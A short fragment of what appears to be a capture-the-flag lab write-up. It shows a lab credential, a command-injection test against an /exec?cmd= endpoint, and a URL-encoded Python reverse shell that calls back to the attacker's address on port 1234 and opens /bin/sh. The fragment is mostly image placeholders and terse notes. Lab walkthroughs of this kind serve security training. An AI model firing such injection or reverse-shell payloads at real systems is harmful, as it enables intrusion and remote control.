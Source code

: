 `dev01:Soulless_Developer#2022`

Let’s 

![Untitled](images/Untitled%2027.png)

![Untitled](images/Untitled%2028.png)

`http://10.10.11.164/exec?cmd=ping%20-c%201%2010.10.14.198`

![Untitled](images/Untitled%2029.png)

`10.10.11.164/exec?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.14.198%22%2C1234))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call([%22%2Fbin%2Fsh%22%2C%22-i%22])%3B%27%0A`
